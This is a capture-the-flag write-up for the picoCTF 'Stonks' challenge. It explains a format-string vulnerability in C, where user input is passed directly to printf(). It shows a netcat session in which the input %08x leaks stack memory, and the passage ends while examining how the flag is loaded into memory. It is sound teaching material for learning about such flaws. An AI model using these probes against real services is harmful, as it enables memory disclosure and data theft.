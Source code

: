 # Stonks Write-up

This is my first format string vulnerability CTF task.

## The Challenge

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c nc` `mercury.picoctf.net 20195`.

## The Solution

We look at the `vuln.c` file. In the `buy_stonks` function, we find a sketchy implementation of the `printf()` function. 
```C
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
If you know C, then you might have noticed that the formatting argument is missing. This kind of code-implementation of the `printf()` function is a format string vulnerability. As we will see, we can access parts of the stack memory by inputting to <mark>user_buf</mark>, otherwise known as the API token. 

We check if this vulnerability is indeed present by connecting via nc:
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x
Buying stonks with token:
082c0430
```
The input `%08x` specifies to the `printf()` function to print 8 hexadecimal digits from the stack. To find the flag, we will continue to look into `vuln.c`. The following code block is interesting:
```C
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
	printf("Flag file not found. Contact an admin.\n");
	exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```



